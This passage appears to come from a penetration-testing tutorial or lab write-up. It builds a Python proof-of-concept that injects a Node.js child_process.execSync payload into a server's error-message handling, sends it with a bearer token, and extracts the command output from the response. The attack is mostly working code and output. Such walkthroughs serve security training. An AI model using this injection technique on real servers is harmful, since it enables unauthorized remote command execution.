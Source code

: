As a checkpoint, we can try running the code to ensure it works as expected:

```shell
python3 poc.py
> ls
{'text': "' + require('child_process').execSync('ls').toString() + `'`, statusCode: 403})//"}

```

As we can see, the JSON payload is being prepared as intended. We also need to escape single quotes or replace them with double quotes. This is because our command was wrapped with single quotes in the earlier JavaScript payload (in `execSync('ls')`), and using un-escaped single quotes would break the JavaScript payload, and the attack would fail. To do so, we will add the following before `payload`:

```py
user_input = user_input.replace("'", '"')

```

## Sending the Request

To send the request, we can re-use the previous POST request code and add the authorization header to `headers` with the same value we used in our `curl` request:

```py
headers = {"Content-Type": "application/json", "Authorization": f"Bearer {token}"}
response = requests.post(qr_endpoint, headers=headers, data=json.dumps(payload))

```

Before we parse the response and get the command output, it's best to do another checkpoint by confirming that our payload looks as expected on the backend. We will once again set a breakpoint on line `9` in `service-controllers.js`, and then run the script and input any command. We get the following value for `onError`:

```js
"throw({message: 'The input \"' + require('child_process').execSync('ls').toString() + `'`, statusCode: 403})//\" contains the following invalid characters: [',',',',',`,',`]', statusCode: 403})";

```

## Parsing Response

Great! This appears to match what we sent. So we can proceed with receiving the response and formatting it. From our previous 'manual' exploitation attempts, we know that the response starts with `The input \"` and then the output of the command. So, we can use this info to capture the command output. We also noticed that the `message` value always ends with `\n'`, so we must remove the last two characters.

So, we will capture the `message` value from the JSON response, split and capture the part after `The input \"`, remove the last two characters, and print the output, as follows:

```py
output = response.json()['message'].split("The input \"")[1][:-2]
print(output)

```
